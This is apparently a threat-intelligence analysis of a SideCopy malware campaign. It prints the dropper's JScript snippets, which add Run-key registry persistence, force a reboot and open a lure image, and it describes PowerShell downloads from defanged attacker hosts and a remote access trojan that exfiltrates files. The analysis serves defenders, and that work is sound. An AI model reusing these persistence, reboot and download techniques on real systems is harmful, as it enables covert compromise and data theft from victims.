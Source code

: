 
CreateTextFile: C:/ProgramData/parhai.js
‘var oWSS = new ActiveXObject(“WScript.Shell”);WScript.Sleep(15000);oWSS.RegWrite(“HKCU\\\\SOFTWARE\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Run\\\\”, “C:\\\\ProgramData\\\\dvixm\\\\dvimo.exe”,”REG_SZ”);’



CreateTextFile: C:/ProgramData/r.js
“var shell = new ActiveXObject(‘WScript.Shell’);WScript.Sleep(200000);var exec = shell.run(‘cmd.exe /k shutdown /r /f /t 0’,0,true);”
X


CreateTextFile: C:/ProgramData/kohlw.js
“var shell = new ActiveXObject(‘WScript.Shell’);WScript.Sleep(9000);var exec = shell.run(‘cmd.exe /c start C:\\\\ProgramData\\\\8292.png’,0,true);” 
X





Lure file: 8292.png
The purpose of 8292.png is purely to act as a successful result of the user clicking the Scanimg.png(.lnk) file which acts as a lure for code execution. The image below shows the contents of the png file which appears to be a snippet or copy of a news article posted on December 1st, 2021, by PIB Delhi, Ministry of Defence. It is interesting that the attackers opted to use a news article that was out of date by exactly one year from this particular campaign. This could have been a mistake by the group.
Figure 4: Contents of 8292.png (lure file)
Moving on, each of the created .js (JScript) files created by the sit.hta file attempts to serve a single purpose. JScript files have been linked to SideCopy operations in the past, though have been less common.
JScript file: kohl.js
This script simply downloads the 8292.png lure file using a PowerShell INvoke-WebRequest. This file is downloaded from hxxps://www.incometaxdelhi[.]org/gallery/thumnails/mix/b.php and is saved to C:\ProgramData\8292.png
JScript file: kohlw.js
This script takes the downloaded lure file (8292.png) and opens it after sleeping, or pausing execution for 35 seconds. Perhaps this long pause is to allow for enough time for the download script to complete execution.
JScript file: kohld.js
After sleeping for only 1/10th of a second, this script simply creates the following directory inside the root of ProgramData: C:\ProgramData\dvixm
JScript file: update.js
Waiting a bit longer, the script sleeps for another 69 seconds and then attempts to reach out via PowerShell to hxxp://155.133.23[.]244/d.php to download a binary file. The file is saved to C:\ProgramData\ as mm1.exe. We will dig into this binary file further down.
JScript file: parhai.js
To establish persistence, this script performs a registry edit using the RegWrite method after sleeping for another 15 seconds. This persistence method is well documented and is commonly used by malware to assist with maintaining a presence on the target host. When the computer starts, programs referenced by startup/run keys will be executed.
In this case, the attackers modified the key: “HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run” with the value of “C:\ProgramData\dvixm\dvimo.exe”
JScript file: r.js
This script simply reboots the target system after waiting 200 seconds. Once the user logs back in, the downloaded binary should execute in theory, and keep executing each time the system reboots.
To wrap up, the main goal of the script is to execute the binary payload (mm1.exe) after rebooting the target system by having it execute as a startup process via registry keys. One interesting thing to note was the possibility of an error in the script as the binary name and path don’t match what is saved versus what the registry key references. In this case mm1.exe would never execute. This could be an error on the attacker’s part.
Binary analysis: mm1.exe
Based on its capabilities which we will dive into further down, the binary file would be classified as a RAT (remote access trojan). At a high level it allows for C2 command execution, additional payload download and execution, desktop screenshots, and file exfiltration.